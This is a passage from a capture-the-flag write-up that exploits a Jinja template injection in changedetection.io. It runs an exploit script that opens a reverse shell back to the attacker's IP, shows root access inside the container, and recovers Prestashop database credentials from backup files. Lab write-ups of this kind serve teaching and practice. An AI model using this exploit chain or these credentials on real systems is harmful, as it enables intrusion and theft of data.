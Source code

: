 This will cause the jinja template injection from the exploit to be executed and we'll catch the reverse shell that's sent back.

As soon as the button is clicked to send a test notification, we get our shell:
```shell
❯ python 52027.py --url http://localhost:5000/ --port 4444 --ip 10.10.14.235 --notification "gets://10.10.14.235:8181/"
Obtained CSRF token: ImZhZjIwZTYxNWI4Y2QxYzEyYjgzNzFiYTdiODFmOWQxYWVlNTZiMzUi.Z46m4g.42HUmzp5VNU_dVanYaLFAVYmZhU
Redirect URL: /edit/82209419-79a7-4127-882b-cfc74d43fd6d?unpause_on_save=1
Final request made.
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.129.11.198 on port 40996
Listening on port 4444...
Connection received!
[*] Switching to interactive mode
root@a4b9a36ae7ff:/app# $ whoami
whoami
root
```

We have root access, but only on the container where the changedetection.io deployment is running.

### Discovering Additional Credentials

During our initial enumeration on the machine, we saw this running process:
```shell
python ./changedetection.py -d /datastore
```

We did not have access as it was running as root and was in the container, but now we do:
```shell
root@a4b9a36ae7ff:/app# $ ls /datastore/Backups
ls /datastore/Backups
changedetection-backup-20240830194841.zip
changedetection-backup-20240830202524.zip
```

We transfer those to our attacker machine and unzip them. We see 3 files ending in .txt.br among other files:
```shell
❯ ls *.br
ba1fe8fcfb743ba16a136d805c38328f.txt.br f04f0732f120c0cc84a993ad99decb2c.txt.br
dd25d6c8b666e21ac6e596faa4d4a93d.txt.br
```

These are brotli compressed files, so we can decompress those as well and we're provided the txt files themselves. We find one of interest, `f04f0732f120c0cc84a993ad99decb2c.txt`. It's another parameters.php file that Prestashop uses but this time it has a different database login:
```php
'database_host' => '127.0.0.1' ,
'database_port' => '' ,
'database_name' => 'prestashop' ,
'database_user' => 'adam' ,
'database_password' => 'adam_admin992' ,
```
